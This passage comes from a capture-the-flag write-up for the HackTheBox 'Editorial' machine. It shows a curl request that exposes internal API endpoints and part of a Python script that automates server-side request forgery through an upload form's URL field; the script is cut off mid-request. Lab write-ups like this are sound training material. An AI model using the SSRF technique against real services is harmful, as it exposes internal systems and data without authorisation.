 # Inspecting static/uploads/e62233be-45c0-42a4-a1c9-4af328cffec8

Curl was used to view the contents of the URL. It returned a bunch of JSON data which lists various API endpoints. This looks promising.

```
┌──(kali㉿kali)-[~/hackthebox/editorial]
└─$ curl http://editorial.htb/static/uploads/e62233be-45c0-42a4-a1c9-4af328cffec8
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

```

# Automating SSRF with Python

There were only a few endpoints to inspect so creating a python script to automate it was not necessary. I needed the practise and created the following script to automate the entire process.

```python
import requests
import sys
import json

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python script.py <URL>\nExample: script.py http://127.0.0.1:5000")
        sys.exit(1)

url_argument = sys.argv[1]

proxies = {
  "http": "http://127.0.0.1:8080"
}

url = 'http://editorial.htb/upload-cover'
headers = {
    'Host': 'editorial.htb',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'multipart/form-data; boundary=---------------------------184177687522391879021040867942',
    'Origin': 'http://editorial.htb',
    'Connection': 'keep-alive',
    'Referer': 'http://editorial.htb/upload'
}

data = f'''\
-----------------------------184177687522391879021040867942
Content-Disposition: form-data; name="bookurl"

{url_argument}
-----------------------------184177687522391879021040867942
```